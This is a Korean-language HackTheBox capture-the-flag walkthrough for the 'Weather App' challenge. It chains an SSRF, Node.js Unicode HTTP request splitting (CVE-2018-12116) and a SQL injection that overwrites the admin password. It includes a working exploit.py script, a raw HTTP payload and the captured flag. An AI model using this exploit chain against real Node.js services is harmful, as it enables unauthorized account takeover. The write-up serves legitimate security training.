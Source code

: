 
# HackTheBox Walkthrough - Room: Weather App

**Target IP**: 94.237.57.211:37932  
**Difficulty**: Medium  
**Objective**: Exploit SSRF and HTTP request splitting vulnerability in Node.js to gain admin access and capture the flag.  
![webpage](img/webpage.png)

---

## 🧭 Initial Enumeration

### 🌐 웹 페이지 정보

- 기본 페이지는 Sejong의 날씨 정보를 알려주는 웹사이트

### 🔍 gobuster 디렉토리 스캔

```bash
gobuster dir -u http://94.237.57.211:37932/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
![gobuster](img/gobuster.png)

→ 결과:

- `/login` (200 OK)
- `/Login` (200 OK)
- `/register` (200 OK)
- `/static/` (301 Redirect)

---

## 🔐 로그인 및 회원가입 페이지

- `/login`, `/register` 페이지 모두 존재  
![register](img/register.png)

- 기본 SQL Injection 시도 실패:

```text
id: ' or 1=1 --
pw: 1234
```

---

## 🔍 소스 코드 분석 결과

### 📁 /routes/index.js  
![registerpost](img/registerpost.png)

```js
// /register
if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
    return res.status(401).end();
}
```

→ 회원가입 요청은 **localhost(127.0.0.1)** 에서만 가능 → **SSRF로 우회 가능**

### 📁 /login  
![loginpost](img/loginpost.png)

```js
if (admin) return res.send(fs.readFileSync('/app/flag').toString());
```

→ `admin` 계정으로 로그인 시 **플래그가 출력됨**

---

## 🧠 SSRF 취약점 분석

### 📁 helpers/WeatherHelper.js  
![WeatherHelper](img/WeatherHelper.png)

```js
let apiKey = '10a62430af617a949055a46fa6dec32f';
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);
```

→ 사용자가 입력한 `endpoint`, `city`, `country`를 이용해 외부 API 요청 → **SSRF 가능**

---

## ⚙️ Node.js SSRF + HTTP Request Splitting  
![packagejson](img/packagejson.png)

- Node.js v8.12.0 (구버전)
- [CVE-2018-12116](https://nvd.nist.gov/vuln/detail/CVE-2018-12116) - Unicode를 이용한 Request Splitting  
![CVE](img/CVE.png)  
![cve-2018](img/cve-2018.png)

### 🧪 페이로드 예시

```http
GET /data/2.5/weather?q=vardy HTTP/1.1
HOST: 127.0.0.1

POST /register HTTP/1.1
HOST: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

username=admin&password=asd') ON CONFLICT (username) DO UPDATE SET password='1234'--
```

→ `admin` 사용자의 비밀번호를 **1234**로 변경

---

## 🚀 exploit.py 코드  
![exploit](img/exploit.png)

```python
import requests

url = 'http://94.237.57.211:37932/api/weather'

sqli = "username=admin&password=asd%27%29+ON+CONFLICT+%28username%29+DO+UPDATE+SET+password=%27vardy%27--"
cl = str(len(sqli))

exploit = ''' HTTP/1.1
HOST: 127.0.0.1

POST /register HTTP/1.1
HOST: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}

GET /'''.format(cl,sqli)

exploit = exploit.replace(' ', '\u0120')
exploit = exploit.replace('\n','\u010D\u010A')

data = {'endpoint': '127.0.0.1', 'city': 'vardy', 'country':exploit}
response = requests.post(url, data=data)

print(response.status_code)
print(response.text)
```

---

## ✅ 결과 확인

- 로그인 페이지 접속 → `admin / vardy` 입력
- 로그인 성공 시 플래그 출력  
![flag](img/flag.png)

```
HTB{w3lc0m3_t0_th3_p1p3_dr34m}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술                | 설명                                                            |
|---------------------|-----------------------------------------------------------------|
| SSRF                | 서버가 자기 자신에게 요청을 보내도록 유도                      |
| HTTP Request Splitting | 개행 문자를 유니코드로 삽입해 HTTP 요청을 두 개로 분리               |
| Node.js v8 취약점     | CVE-2018-12116 이용, HTTP 요청 분리 후 내부 API에 우회 요청 가능       |
| SQL Injection (ON CONFLICT) | 중복 사용자일 경우 `password` 업데이트                      |

---

## 🎯 최종 결과

- **플래그**: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`
- **획득 방법**: SSRF + HTTP Request Splitting → Admin 패스워드 변경 → 로그인 후 플래그 출력

---

## 📚 참고 자료

- https://vardy.tistory.com/267  
- https://jaeseokim.dev/Security/nodejs-HTTP-request-splitting%EC%9D%84-%EC%9D%B4%EC%9A%A9%ED%95%9C-SSRF-%EC%B7%A8%EC%95%BD%EC%A0%90featNullCon2020-splitsecond-WriteUp/
